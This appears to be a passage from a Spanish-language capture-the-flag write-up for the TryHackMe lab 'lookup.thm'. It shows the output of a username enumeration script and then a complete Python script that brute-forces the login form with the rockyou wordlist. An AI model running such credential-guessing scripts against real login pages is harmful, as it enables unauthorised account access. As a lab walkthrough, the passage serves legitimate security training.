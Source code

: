 Tras unos minutos, vemos que empezamos a enumerar varios usuarios:
```
> python3 userID.py
[*] User bruteforce starting...
[+] User found!!!: admin
[+] User found!!!: jose
```

Una vez enumerado el usuario "*Jose*", retocamos un poco el script y lo volvemos a lanzar para adivinar la contraseña por fuerza bruta:
```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests, re, time, sys
from random import randint

url = "http://lookup.thm/login.php"
headers_data = ''

if __name__ == '__main__':

        s = requests.session()

        print("[*] Bruteforce starting...")

        fp = open('/usr/share/wordlists/rockyou.txt', errors='ignore')
        for password in fp.readlines():
                r = s.get(url, verify=False)

                post_data = {
                        'username': 'jose',
                        'password': '%s' % password.rstrip()
                }

                r = s.post(url, data=post_data, headers=headers_data, verify=False)

                if "Wrong password." not in r.text:
                        print("[+] Password found!!!: %s" % password)

        fp.close()
```

Tras unos minutos, logramos obtener las credenciales:
```
> python3 login-bf.py
[*] Bruteforce starting...
[+] Password found!!!: **********
```

Utilizamos las credenciales, enumeramos el subdominio "*files.lookup.thm*", lo insertamos en nuestro fichero hosts y conseguiremos acceder a un servidor de ficheros con contenido bastante interesante: